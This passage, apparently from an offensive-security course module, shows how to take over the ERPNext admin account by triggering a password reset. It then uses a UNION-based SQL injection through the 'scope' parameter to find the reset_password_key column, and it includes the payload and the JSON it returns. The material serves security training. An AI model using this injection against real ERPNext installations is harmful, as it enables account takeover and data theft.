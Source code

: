 > Listing 45 - Extracting the users

Based on the response, the email we used to create the admin user was discovered. This is the account that we will target for the password reset. We can enter the email in the _Forgot Password_ field.

![Figure 40: Email in Password Reset Field](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/a4b38684813d5c0d68c7263e4567455f-erpnext_email_password_reset.png)

Figure 40: Email in Password Reset Field

Selecting _Send Password_ will create the password reset token for the user and send an email about the password reset.

![Figure 41: Password Reset Complete](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/841586a2f0c112b270cd7689654919e2-erpnext_sqli_password_reset_complete.png)

Figure 41: Password Reset Complete

Next, we can use the SQL injection to extract the reset key. We know that the reset key is contained in the tabUser table, but we don't know which column yet. To find the column, we will use the query in Listing 46.

```
SELECT COLUMN_NAME 
FROM information_schema.columns 
WHERE TABLE_NAME = "tabUser";
```

> Listing 46 - Query to discover password reset column

Again, we need to make this conform to the UNION query.

```
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#%" AND MATCH(`content`) AGAINST (\'\\"offsec\\"\' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
```

> Listing 47 - Finding table name for password reset

The highlighted part displayed above is the payload that we'll send in Burp via the _scope_ variable.

![Figure 42: SQLi to Obtain List of Column Names](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/b2c0ad14126c181520760d394e1399bc-erpnext_sqli_get_column_names.png)

Figure 42: SQLi to Obtain List of Column Names

Sending that SQL injection payload returns the JSON found in Listing 48.

```
{"message":[{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"name"},...,{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"birth_date"},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"reset_password_key"},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"email"},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"_comments"},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"1","route":"allowed_in_mentions"}]}
```
